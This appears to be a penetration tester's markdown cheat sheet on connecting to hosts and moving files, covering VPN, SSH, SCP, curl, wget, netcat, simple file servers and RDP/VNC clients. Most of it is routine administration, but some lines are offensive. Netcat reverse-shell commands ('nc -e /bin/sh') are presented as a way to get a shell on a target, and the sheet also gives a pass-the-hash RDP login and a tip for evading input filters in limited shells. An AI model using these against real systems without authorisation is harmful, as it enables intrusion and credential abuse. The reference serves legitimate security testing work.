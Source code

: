 # Connection

## Client

### VPN

```
openvpn <config file>.ovpn
openvpn --config <ovpn file> --auth-user-pass <creds file>    #creds are username and password separated by a line break
```

### SSH

```
ssh <user>@<ip> -p <port>
ssh <user>@<ip> -i <path to private key>
```

#### Create a private key

```
ssh-keygen -t <rsa/dsa/ecsda> -f <file>
chmod 600 <file>
```

### SCP

Transfer remote file or folder to local

```
scp <user>@<host>:<filepath> <local path>
scp -i <pkey> <user>@<host>:<filepath> <local path>
scp -r <user>@<host>:<folder> <local path>
```

Transfer local file or folder to remote

```
scp <file> <user>@<host>:<path>
scp -i <pkey> <file> <user>@<host>:<filepath>
scp -r <folder> <user>@<host>:<path>
```

Transfer from remote to remote

```
scp <user1>@<host1>:<file> <user2>@<host2>:<dest path>
```

### HTTP

```
curl <url>                 #print html page
curl -v <url> -s           #banner grabbing
curl -i <url>              #banner grabbing
curl -H '<custom header arg i.e. User-Agent: <str>>' <url>
```

### Generic Ports

```
nc -nCv <ip> <port>        #try with or without -C if console hangs
telnet <ip> <port>         #good luck exiting the terminal without an US keyboard
```

If the connection is established but we're unable to execute commands try to manually invoke the shell command

```
nc -e </bin/sh|/bin/bash|cmd.exe> <ip> <port>      
nc -c <sh|bash|cmd.exe> <ip> <port>
```

### File Download

#### Download

```
wget <url>                 #download file from HTTP server
wget <url> -O <local path>
wget ftp:\\<url>\<file>    #download file from anonymous ftp server
```

#### Download recursive

Useful when executing commands in limited shells\filtered inputs that don't allow "/". All files within the remote server's working folder will be transferred to the target without having to specify the full URLs

```
wget -r <ip> -nH
```

### File Upload

```
curl -T <file> http://<url>/         #HTTP PUT
curl -T <file> ftp://<url>/<path>    #FTP
curl -T <file> smtp://<mail server> --mail-from user@example.com
curl -F "files=@<file>" <IP>        #HTTP upload file using JQuery
```

#### POST upload

```
curl -d <param>=<value> -d <param2>=<value2> http://<url>/        #arguments
curl -d '<string or args i.e. admin=admin&pass=pass>' http://url  #string
curl -d @<filename> http://<url>/                                 #file
```

## Server

Require `impacket`for python 2/3. See [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

### HTTP

```
python -m SimpleHTTPServer <port>
```

[**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)

### FTP

```
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

### SMB

```
smbserver.py -smb2support <name> <path to folder>
```

## Remote desktop

### rdesktop

```
rdesktop <ip>
rdesktop <ip> -u <user>@<domain> -p <pass> -g 1024x768
rdesktop <ip> -u <user> -p <pass> -f                    #fullscreen 
rdesktop <ip> -r disk:share=<local folder to share>     #share folder with remote client
```

### xfreerdp

```
xfreerdp /d:<domain> /u:<user> /v:<host> +clipboard              #share clipboard
xfreerdp /d:<domain> /u:<user> /v:<host> +drives                 #share all mount points
xfreerdp /d:<domain> /u:<user> /v:<host> +home-drive             #share home folder
xfreerdp /d:<domain> /u:<user> /v:<host> /dynamic-resolution     #allow window resize

xfreerdp /u:"<user>" -p:"<password>" /v:<host>
xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>:<port>
xfreerdp /u:<user> /pth:<hash> /v:<ip>     #login with hash

xfreerdp /v:<host> /dynamic-resolution +clipboard +home-drive 
```

### VNC

```
vncviewer <ip> 
vncviewer -fullscreen <ip> 
```

Press F8 to use options such as copy between remote and local clipboard, send ctrl+alt+del to remote machine and remove popups
